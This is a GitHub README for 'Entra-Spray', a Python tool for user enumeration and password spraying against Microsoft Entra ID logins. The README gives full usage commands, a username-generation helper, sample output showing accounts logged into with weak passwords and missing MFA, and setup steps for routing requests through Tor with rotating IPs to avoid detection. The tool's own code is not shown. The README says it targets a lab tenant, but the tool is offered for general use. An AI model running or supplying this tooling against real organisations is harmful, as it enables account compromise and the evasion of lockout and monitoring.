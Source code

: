 # Entra-Spray
Python tool that allows you to perform Password Spray and User Enumeration tests against Entra ID, with Microsoft login service (login.microsoftonline.com).

The tool recreates the real Microsoft login flow to check:
1. Whether a user exists in Entra ID
2. Whether the password is correct
3. Whether there is a reference to a Federated server

## Main capabilities:
-  Argument (-Check) for checking if user identity exsit in Tenant (after muliple requests it might be False Positive)
-  Argument (-ProxyTor) for route all traffic vit TOR (renew ip after every 7 min..) - This feature comes to solve the problem of False Positive
   Settings adjustment required before using this argument
- Argument (-firstname) and (-lastname) and (-tenantname) for make combination from employee's name until finding the vaild user

### Install:

```bash
pip install httpx
pip install httpx[http2]
pip install httpx[socks]
pip install stem
```

```python
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file -pass password | path-to-passwords-file  [-check] [-ProxyTor] # authentication to Microsoft
Entra-Spray.py [-h] -user username@doamin.com | path-to-usernames-file  [-check] [-ProxyTor] # Just for user validation
Entra-Spray.py [-h] -firstname Shaked -lastname Wiessman -tenantname Shak.com [-ProxyTor] # for Finding the vaild combination
```

Using UserName-Combain.py:
```python
UserName-Combain.py -input names.txt -output username.txt -tenantname @shak.com -style firstl | first | last | firstlast | first.last | last.first | lastfirst | firstL | lastF | firstL2 | firstL3 | lastF2 | lastF3 | fl | lf | l.first | f.last | first.l | last.f | all 
```

### Usage:

the tenant and the upns is a part of a LAB enviroment in Entra ID :]

#### Checking If User Exist:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -check

[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.comis exists
[✗] Username: dan@entraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists


----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Checking If User Exist with TOR routing (-proxytor flag):
```python
python3 Entra-Spray.py -user list-of-usernames.txt -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}
[✓] Username: shoshi@entraspraytenant.onmicrosoft.com is exists
[✓] Username: david@entraspraytenant.onmicrosoft.com is exists
[✗] Username: dan@mentraspraytenant.onmicrosoft.com not exists
[✓] Username: normuser@entraspraytenant.onmicrosoft.com is exists
[✓] Username: shakedwiessman@entraspraytenant.onmicrosoft.com is exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456'

[-] Failed to authenticate with shoshi@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[-] Failed to authenticate with normuser@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists
[-] Failed to authenticate with shakedwiessman@entraspraytenant.onmicrosoft.com with password Aa123456, didn't check if user exists

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag:
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check

[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

#### Preforming Password Spray Attack with '-check' flag and with TOR routing:
The script will check if:
- The user is required to have MFA but has not yet set it up
- The user is required to have MFA
- The user is required to change their password
  
```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Aa123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.228.160.190"}
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[✓] User david@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Aa123456, MFA required but not configured
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Aa123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Bb123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"110.22.66.190"}
[!] NOT-success: shoshi@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Bb123456
[✓] User shakedwiessman@entraspraytenant.onmicrosoft.com is exist, and seccessfully logged in with password: Bb123456, MFA required

----------------------------
 Valid users and successful authentications written to valid-users.txt
```

```python
python3 Entra-Spray.py -user list-of-usernames.txt -password 'Cc123456' -check -proxytor

[i] Current TOR IP: {"IsTor":true,"IP":"109.172.188.113"}
[✓] User shoshi@entraspraytenant.onmicrosoft.com is exist, and Password needs updating: Cc123456
[!] NOT-success: david@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: normuser@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456
[!] NOT-success: shakedwiessman@entraspraytenant.onmicrosoft.com exists, Failed to authenticate with password: Cc123456

----------------------------
 Valid users and successful authentications written to valid-users.txt
```
## Usage with TOR:

### Install:

```bash
sudo apt update
sudo apt install torsocks -y
sudo apt install libtorsocks0 -y
```


1) Start TOR:

  ```bash
  sudo systemctl start tor@default
  ```

2) open /etc/tor/torrc file and add:

  ```bash
  ControlPort 9051
  CookieAuthentication 1
  ```

3) Create symlink:

  ```bash
  sudo ln -s /usr/lib/x86_64-linux-gnu/torsocks/libtorsocks.so /usr/lib/x86_64-linux-gnu/libtorsocks.so
  ```

4) Restart TOR:

  ```bash
  sudo systemctl restart tor@default
  ```

5) Check if TOR is working:
  ```bash
  netstat -tulpen | grep 9050
  torsocks curl https://api.ipify.org
  torsocks curl https://check.torproject.org | grep -i "Congratulations"
  ```

